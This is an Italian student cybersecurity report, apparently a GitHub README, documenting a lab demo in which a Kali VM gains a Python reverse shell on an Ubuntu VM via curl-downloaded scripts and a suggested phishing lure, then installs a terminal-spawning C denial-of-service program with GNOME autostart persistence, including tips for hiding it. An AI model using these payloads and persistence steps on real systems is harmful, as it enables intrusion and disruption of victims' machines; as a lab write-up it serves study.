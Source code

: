 # Cybersecurity report Huseinovic Elma

## Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

# Introduction

L'obiettivo della demo è di creare un Denial of Service persistente su una macchina virtuale Ubuntu, che quindi sarà la macchina attaccata, mentre per l'attaccante è stata utilizzata una macchina virtuale Kali. Per fare ciò, per prima cosa viene creata una reverse shell per permettere alla macchina attaccante di agire liberamente sulla macchina Ubuntu. 

## Preparazione Kali
Per prima cosa sono stati creati tutti i file necessari su Kali.
Per primo il file `reverseshell.sh`, dove è presente il [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```js
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
che permette di creare una reverse shell in background quando eseguito sulla macchina attaccata.
Poi, è stato creato un semplicissimo programma in C, `dos.c`, contenente un ciclo while infinito che continua ad aprire finestre di terminale:
```js
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
è stato scelto di aprire il terminale per semplicità, è possibile farlo con altre applicazioni e anche aprirne diverse, creando un vero e proprio crash della macchina. 
Infine è stato creato il file `dos.desktop` 
```js
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
che verrà utilizzato per inserire il programma che esegue il Denial of Service tra le applicazioni che si aprono all'avvio della macchina. 
I flag Hidden e NoDisplay, per evidenziare il Denial of Service, sono stati messi a false, se vengono settati a true, il programma viene eseguito senza che l'utente si accorga di nulla, quindi la macchina viene rallentata senza la riesca a capire il motivo.
Una volta creati i file, è stata creato anche un web file server sulla porta 80, utilizzando il comando 
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

A questo punto, l'unica cosa che rimane da fare, è mettersi in ascolto sulla porta predefinita, per fare ciò è stato utilizzato il comando `nc -lvp 4444 -n`

# Reverse shell 

Per creare la reverse shell, è necessario che l'utente sulla macchina attaccata venga convinto a scaricare ed eseguire il file `reverseshell.sh`, questo potrebbe essere fatto creando una mail di phishing e convincendolo, per esempio, che si tratti di una patch di sicurezza. Nella demo, viene utilizzando il comando `curl -O "http://10.0.2.2/demo/reverseshell.sh"`, che scarica il file dal web file server creato su Kali, a questo punto si esegue il comando `sudo chmod +x reverseshell.sh` che aggiunge il permesso di esecuzione al file con privilegi di amministratore, infine viene eseguito il file con `./reverseshell.sh`. 
A questo punto, essendo la reverse shell eseguita in background, l'utente su Ubuntu può continuare ad utilizzare il terminale normalmente, senza accorgersi di nulla, ma in realtà è connesso sulla porta 4444 alla macchina Kali attraverso una reverse shell.

![Reverse Shell](images/reverseshell.png)

# DoS e persistent crash 

Utilizzando la reverse shell, ora, è facile scaricare il programma `dos.c` e il file `dos.desktop` dal web file server di Kali utilizzando sempre il comando `curl`:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
ora, il programma dos.c viene compilato utilizzando il comando `ggc -o dos dos.c`, viene creato, così, l'eseguibile. Prima di eseguirlo, però, bisogna creare persistenza: il file `dos.desktop` viene spostato in `.config/autostart`, per fare ciò viene utilizzato il comando `mv`, che deve, però, essere eseguito con privilegi di amministratore, quindi utilizzando `sudo`, questo implica che l'attaccante debba conoscere la password dell'account. Una volta che `dos.desktop` viene spostato, il programma `dos` è visibile in Startup Application Preferences, che mostra i programmi che vengono eseguiti allo startup della macchina. 

![Startup Application Preferences](images/startupapplications.png)

quindi, ogni volta che avverrà l'accesso alla macchina, verranno aperte in loop innumerevoli finestre di terminale, rendendolo inutilizzabile. 

![DoS](images/dos.png)

Inoltre, un'altra feature interessante è che, provando a rimuovere `dos` utilizzando l'applicazione Startup Application Preferences e riavvinado la macchina, il programma viene eseguito comunque, questo perchè non viene rimosso il file `dos.desktop` presente in `.config/autostart`, il quale continua rimettere il programma tra le applicazioni da eseguire all'avvio. 
Per fermare questo attacco si potrebbe pensare di cancellare l'eseguibile `dos`, ma nel caso in cui questo venga a sua volta posto in una cartella non facilmente raggiungibile, questo non si potrebbe fare, soprattutto se non si sa cosa sta succedendo e se la macchina comincia a crashare. 
In alternativa si potrebbe pensare si cancellare il file dos.desktop, ma essendo collocato in una directory nascosta di default ed essendo il terminale non utilizzabile, questo potrebbe risultare difficile.


